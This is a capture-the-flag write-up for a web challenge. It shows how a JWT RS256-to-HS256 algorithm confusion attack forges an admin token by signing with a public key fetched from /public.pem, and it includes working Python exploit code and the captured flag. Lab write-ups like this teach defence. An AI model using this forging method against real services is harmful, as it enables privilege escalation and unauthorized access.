

# Web-Challenge-3: Unlock Me

### Description

> Our agents discovered COViD's admin panel! They also stole the credentials **minion**:**banana**, but it seems that the user isn't allowed in. Can you find another way?
>
> [Admin Panel](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/)

### Solution

Opening up the admin panel, we are greeted with a login page:



Since the question gives us the credentials `minion:banana`, we can try inputing it to see what the page throws us.


The error message suggests (as given in the question) that the credentials are recognised but the role is incorrect. Hence, it makes sense for us to proceed with figuring out how the login system works to hopefully either gain access to a privileged user or beat the role check. Naturally, we will look at the front-end code to see if it gives us any clues. Using `curl` (or the developer console), we can view the source easily (beautified here):

```html
<!DOCTYPE html>
<html>
  <head>
    <title></title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.5.3/dist/css/bootstrap.min.css" integrity="sha384-TX8t27EcRE3e/ihU7zmQxVncDAy5uIKz4rEkgIXeMed4M0jlfIDPvg6uqKI2xXr2" crossorigin="anonymous" />
    <link rel="stylesheet" href="/stylesheets/style.css" />
    <script src="https://code.jquery.com/jquery-3.5.1.min.js" integrity="sha256-9/aliU8dGd2tb6OSsuzixeV4y/faTqgFtohetphbbj0=" crossorigin="anonymous"></script>
  </head>
  <body class="text-center">
    <form class="form-signin" id="signinForm">
      <div id="alerts"></div>
      <h1 class="h3 mb-3 font-weight-normal">COViD HQ</h1>
      <label class="sr-only" for="inputUsername">Username</label><input class="form-control" type="username" name="username" id="inputUsername" placeholder="Username" required autofocus />
      <label class="sr-only" for="inputPassword">Password</label><input class="form-control" type="password" name="password" id="inputPassword" placeholder="Password" required />
      <button class="btn btn-lg btn-primary btn-block" type="submit">Sign in</button>
    </form>
    <script>
      $("#signinForm").submit(function (event) {
        event.preventDefault();
        fetch("login", {
          method: "POST",
          headers: {
            "Content-Type": "application/json",
          },
          body: JSON.stringify({ username: $("#inputUsername").first().val(), password: $("#inputPassword").first().val() }),
        })
          .then(function (response) {
            return response.json();
          })
          .then(function (data) {
            if (data.error) {
              $("#alerts").html('<div class="alert alert-danger" role="alert">' + data.error + "</div>");
            } else {
              fetch("unlock", {
                headers: {
                  Authorization: "Bearer " + data.accessToken,
                },
              })
                .then(function (response) {
                  return response.json();
                })
                .then(function (data) {
                  if (data.error) {
                    $("#alerts").html('<div class="alert alert-danger" role="alert">' + data.error + "</div>");
                  } else {
                    $("#alerts").html('<div class="alert alert-success" role="alert">' + data.flag + "</div>");
                  }
                })
                .catch(function (error) {
                  $("#alerts").html('<div class="alert alert-danger" role="alert">Request failed.</div>');
                });
            }
          })
          .catch(function (error) {
            $("#alerts").html('<div class="alert alert-danger" role="alert">Request failed.</div>');
          });
      });
      // TODO: Add client-side verification using public.pem
    </script>
  </body>
</html>
<script src="https://cdn.jsdelivr.net/npm/bootstrap@4.5.3/dist/js/bootstrap.bundle.min.js" integrity="sha384-ho+j7jyWK8fNQe+A12Hb8AhRq26LrZ/JpcUGGOn+Y7RsweNrtN/tE3MoK7ZeZDyx" crossorigin="anonymous"></script>

```

Reading the code, we realise the html `form` element does not give us much interesting information. However, the javascript code is very illuminating. We can see how the authentication works in 2 stages.

The first `fetch` statement tells us that the login process is initiated via a `POST` request to the endpoint `/login` with the credentials stored in fields `username` and `password`. So far, it seems pretty standard, but the error it give does not match the error we see.

```js
fetch("login", {
  method: "POST",
  headers: {
    "Content-Type": "application/json",
  },
  body: JSON.stringify({ username: $("#inputUsername").first().val(), password: $("#inputPassword").first().val() }),
})
// ...then statements
.catch(function (error) {
  $("#alerts").html('<div class="alert alert-danger" role="alert">Request failed.</div>');	// not the error we saw earlier!
});

```

The next `fetch` statement is more interesting. If the previous `fetch` succeeds, we make a request (which is `GET` by default) to the `/unlock` endpoint with the `Authorization` field of the header set to `"Bearer " + data.accessToken` which we retrieved from the previous request. If this request succeeds without error we get the flag, otherwise if the server returns an error the error is shown. Since none of the hardcoded error messages match what we see, we can conclude that the error must have been returned by the server.

```js
fetch("unlock", {
  headers: {
    Authorization: "Bearer " + data.accessToken,
  },
})
.then(function (response) {
  return response.json();
})
.then(function (data) {
  if (data.error) {
    $("#alerts").html('<div class="alert alert-danger" role="alert">' + data.error + "</div>");
  } else {
    $("#alerts").html('<div class="alert alert-success" role="alert">' + data.flag + "</div>");
  }
})
.catch(function (error) {
  $("#alerts").html('<div class="alert alert-danger" role="alert">Request failed.</div>');
});
```

The `data.accessToken` looks suspicious here, so let's note down that it's worth a look. Before we proceed to investigate it, we scan through the rest of the code and we also see a very suspicious comment.

```js
// TODO: Add client-side verification using public.pem
```

Here, it is likely that the verification is meant to be performed on the token. Let's now dive in to see what the access token really is. Going to the developer console (screenshot shows the interface in firefox), we can see 2 requests. Select the login request to see what data is returned.


Hmm...`accessToken` looks like `Base64` encoded information. In fact, here we can guess that the `accessToken` is most likely a JSON Web Token (JWT) since it starts with `ey`, which corresponds to `{"`. You can verify this by entering the following into the browser javascript console.

```javascript
>> btoa('{"')
"eyI="
```

JWTs are frequently used in web applications for authorisation and information exchange. For example, this can be the state of a user using a web application. They have the general format: `header.payload.signature`, where

* `header` is a `Base64Url` encoded JSON object *typically* specifying the algorithm used to secure the JWT as well as the token type, e.g.

* ```json
  {
    "alg": "HS256",
    "typ": "JWT"
  }
  ```

* `payload` is a `Base64Url` encoded JSON object specifying the data transferred

* `signature` is calculated using the algorithm specified in the `header` from string formed by concatenating the `header` and the `payload` with a `.`.

You can also read more about JWTs [here](https://jwt.io/introduction/). At this point, we can decode the JWT to see what information is stored. First, let's automate the process above using `python`.

```python
import requests
import base64
import json
import jwt	# version 0.4.3, explained later

s = requests.Session()

url = 'http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/login'
data = {'username': 'minion', 'password': 'banana'}
res = s.post(url, data=data)

accessToken = res.json()['accessToken']
```

Next, we can decode the token. Note that we will need to calculate the padding for `Base64` decoding which has been stripped.

```python
def decode(x):
    padding = (4 - len(x) % 4) % 4 * '='
    return base64.urlsafe_b64decode(x + padding).decode('utf-8')


parts = accessToken.split('.')
header, body = list(map(lambda x: json.loads(decode(x)), parts[:2]))
print('Original:', header, body)
```

We will get something like the following:

```json
Original: {'alg': 'RS256', 'typ': 'JWT'} {'username': 'minion', 'role': 'user', 'iat': 1607437084}
```

Since the error message complains that we're not an admin, perhaps we can get around that by changing the `role` to `'admin'`. But how do we go about doing that? We can't just change the payload and re-encode it as a JWT, because the signature will no longer match with the header and payload and the JWT will appear invalid when the server attempts to verify it (by recalculating the signature and comparing with the claimed signature). Well, actually we could, if we can figure out a way to recalculate the signature. Before detailing the attack, we remark that the `RS256` algorithm is applied by signing the payload with the private key by the server. The signature can then be verified on the client side using the public key.

Now, here comes the attack. There is a well-known vulnerability in older versions of JWT libraries which allows us to trick the server into treating a token signed using asymmetrical encryption (RS256) as a token signed using symmetrical encryption (HS256). You can read more about the attack [here](https://www.nccgroup.com/sg/about-us/newsroom-and-events/blogs/2019/january/jwt-attack-walk-through/). What this means is we can sign the modified token using the public key and submit it to the server, which we trick into using the same public key for verification using the symmetric encryption algorithm. This passes of course, so we have defeated the check that the token has not been tampered with! 

But how do we get the public key? Remember, there was a suspicious comment earlier about some `public.pem`. We can guess that it might be located at `/public.pem`, and we will turn out to be right!

With that, the code is shown below.

```python
# Forge the token
header['alg'] = 'HS256'
body['role'] = 'admin'

url = 'http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/public.pem'
key = requests.get(url).text

import jwt
forged = jwt.encode(body, headers=header, key=key, algorithm='HS256').decode()
```

Here, we use the PyJWT library to help us create JWT token. Of course, we can do it ourselves, but we will require a few more lines of code. Importantly, the library used **must** be version `0.4.3` or earlier, i.e. we need to specify the version when installing like so: `pip install pyjwt==0.4.3`, otherwise you will receive a warning that a key used in asymmetric encryption cannot be used to perform symmetric encryption. This is a measure to mitigate the exact vulnerability that we are exploiting.

Finally, we submit the forged token and get our flag :)

```python
# Get the flag!
url = 'http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/unlock'
headers = {
    'Authorization': f'Bearer {forged}'
}
res = s.get(url, headers=headers).text
print('Flag:', res)
```

Flag: `govtech-csg{5!gN_0F_+h3_T!m3S}`
[Script](./solve.py)
